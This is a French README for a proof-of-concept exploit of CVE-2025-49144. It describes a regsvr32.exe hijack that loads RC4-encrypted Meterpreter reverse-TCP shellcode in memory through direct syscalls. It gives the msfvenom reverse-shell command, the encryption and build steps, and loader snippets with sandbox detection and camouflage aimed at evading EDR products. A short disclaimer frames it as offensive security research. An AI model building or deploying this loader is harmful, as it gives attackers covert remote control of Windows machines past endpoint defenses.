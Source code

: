 # 🔓 CVE-2025-49144

Ce projet illustre un PoC exploitant la vulnérabilité **CVE-2025-49144**, en détournant l’appel à `regsvr32.exe` (LOLBIN hijacking) pour exécuter du shellcode chiffré en **RC4**, injecté en mémoire via des **appels système directs** grâce à [SysWhispers3](https://github.com/klezVirus/SysWhispers3).  
Le shellcode utilisé est typiquement un **Meterpreter** généré via `msfvenom`.

---

## 📦 Requirements

- Python 3.x
- `msfvenom` (Metasploit Framework)
- MinGW-w64 (`x86_64-w64-mingw32-gcc`)
- Windows machine (pour test et debug)

---

## 💡 Fonctionnalités

* Chiffrement RC4 du shellcode avec clé en dur
* Détection sandbox / VM optionnelle
* Appels système directs : `NtAllocateVirtualMemory`, `NtProtectVirtualMemory`, `NtTerminateProcess`
* Exécution payload **in-memory** (aucune écriture sur disque)

---

## ⚙️ Étapes de génération

### 1. Générer le shellcode avec msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=X.X.X.X LPORT=XXX -f c -o shellcode.txt
```

---

### 2. Formater le shellcode pour Python

```bash
python3 format_shellcode_txt.py
```

Ce script :
- Lit le contenu du fichier `shellcode.txt`
- Extrait et nettoie le shellcode brut
- Affiche un formatage compatible Python (`b"\xfc\x..."`)
- 📌 **Copier** la sortie dans la variable `shellcode = (...)` du fichier `rc4_shellcode.py`

---

### 3. Chiffrer le shellcode et générer un header C

```bash
python3 rc4_shellcode.py
```

Cela va :
- Chiffrer le shellcode avec RC4 (clé définie dans le script)
- Génére un fichier `encrypted_payload.h` contenant :
  ```c
  unsigned char payload[] = { 0xAA, 0xBB, ... };
  unsigned int payload_len = ...;
  ```

---

### 4. Compiler avec MinGw64

```bash
x86_64-w64-mingw32-gcc loader.c syscalls.c syscalls.obj -o "C:\DEV\regsvr32.exe" -mwindows -s -O2
```

---

## 📂 Fichiers

### `format_shellcode_txt.py`

Convertit un shellcode brut C (`shellcode.txt`) en format `bytes` Python pour intégration dans `rc4_shellcode.py`.

---

### `rc4_shellcode.py`

- Contient une **clé RC4 en dur** (`b"hola"`)
- Chiffre le shellcode
- Génére un header C (`encrypted_payload.h`) contenant le payload chiffré

---

### `loader.c`

Le loader principal qui :
- Inclut le shellcode chiffré depuis `encrypted_payload.h`
- Le déchiffre en mémoire avec `rc4()`
- Alloue, copie, rend exécutable puis exécute le shellcode via **SysWhispers3**
- Simule l’appel à `regsvr32.exe` réel pour camoufler l'exécution
- Intègre une détection sandbox optionnelle et du code "junk"

---

### `syscalls.c/.h/.obj`

Générés avec [SysWhispers3](https://github.com/klezVirus/SysWhispers3). Contiennent les wrappers nécessaires aux syscalls directs, pour contourner certains EDRs.

---

## 🔍 Détails du Code

### RC4 (chiffrement/déchiffrement)

```c
void rc4(unsigned char *data, unsigned int len, const unsigned char *key, unsigned int keylen) { ... }
```

---

### Fonction `junk`

```c
void junk() {
    int a = rand() % 123;
    if (a == 42) MessageBoxA(NULL, "Noise", "Filler", MB_OK);
}
```

---

### Détection sandbox

```c
BOOL is_sandbox_environment() { ... }
```

---

### Exécution via Syscalls

```c
Sw3NtAllocateVirtualMemory(...)
memcpy(...)
rc4(...)
Sw3NtProtectVirtualMemory(...)
((void(*)())baseAddr)();
```

---

### Exécution de regsvr32.exe

```c
GetSystemDirectoryA(sysPath, MAX_PATH);
strcat(sysPath, "\\regsvr32.exe");
CreateProcessA(...);
```

---

## 🧷 Notes complémentaires

* Pense à regénérer `encrypted_payload.h` à chaque nouveau shellcode

---

## ⚠️ Avertissement légal

> 🔬 Ce projet est fourni uniquement à des fins pédagogiques et de **recherche en sécurité offensive**.  
> 🛑 L’auteur décline toute responsabilité en cas d’usage malveillant.
